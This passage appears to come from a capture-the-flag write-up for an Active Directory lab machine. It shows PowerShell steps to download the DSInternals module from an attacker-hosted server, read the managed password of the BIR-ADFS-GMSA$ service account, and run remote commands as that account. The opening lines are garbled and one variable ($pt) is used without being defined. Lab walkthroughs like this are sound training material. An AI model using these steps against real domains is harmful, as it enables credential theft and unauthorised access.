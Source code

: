 Make a https request to `/staff ` as we that endpoint at the start

<img src="https://i.imgur.com/IYjnJOz.png"/>

We can login with `Sierra.Frye` 's credentials

<img src="https://i.imgur.com/L3w52pv.png"/>

<img src="https://i.imgur.com/8B1aKAj.png"/>

now inorder to run commands as `BIR-ADFS-GMSA$` we need to import `DSInternals` module which can be downloaded from github

https://github.com/MichaelGrafnetter/DSInternals/releases/tag/v4.7

Then host this using python3 , an issue can occur when we will be downloading it through web based powershell so the proper command to download it will be

```powershell
Invoke-WebRequest -Uri http://ip/dsinterals.zip -UseBasicParsing -OutFile
```

After having that on the system you can unzip it using  the command

```powershell
Expand-Archive -Path dsinternals.zip -DestinationPath dsinternals
````

Then go to dsinternals and run command `Import-Module .\DsInternals`, now the module has been loaded and you can see it's functions

```powershell
Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA$' -Properties PrincipalsAllowedToRetrieveManagedPassword
```

<img src="https://i.imgur.com/4pfP72M.png"/>

<img src="https://i.imgur.com/hAqxUEN.png"/>

We have saved the blob password for `BIR-ADFS-GMSA$` account , now we need to use the `SecureCurrentPassword` property to run commands as this account, so we are going to create a variable which will have this account's secure string and the account name

```powershell
$Credential = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA$,$pt.SecureCurrentPassword
```

<img src="https://i.imgur.com/Y3mjEYd.png"/>

Now we just need to invoke command in a script block using this variable

```powershell
Invoke-Command -Computer Research -Credential $Credential -ScriptBlock { whoami}
```

<img src="https://i.imgur.com/swR9vxB.png"/>
